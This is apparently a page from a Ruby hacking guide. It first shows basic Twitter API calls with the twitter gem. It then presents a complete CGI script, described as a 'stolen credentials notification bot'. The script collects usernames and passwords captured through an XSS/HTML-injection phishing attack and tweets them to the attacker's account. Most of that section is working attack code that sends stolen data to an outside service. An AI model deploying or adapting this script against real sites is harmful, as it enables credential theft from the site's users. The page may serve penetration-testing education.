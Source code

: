 # Twitter API

- To install twitter API
```
gem install twitter
```

## Basic Usage
```ruby
require 'twitter'
client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end


client.user("Rubyfu")                   # Fetch a user
client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
client.follow("Rubyfu")                 # Follow User (as the authenticated user)
client.followers("Rubyfu")              # Fetch followers of a user
client.followers                        # Fetch followers of current user 
client.status(649235138585366528)       # Fetch a particular Tweet by ID
client.direct_message_create("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
Your turn, tweet to @Rubyfu using above example.

## Building Stolen Credentials notification bot
We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script][1] that takes that stolen credentials then tweet these credentials to us as notification or log system
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Refere!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: http://rubyfu.net/content/module_0x4__web_kungfu/index.html#cgi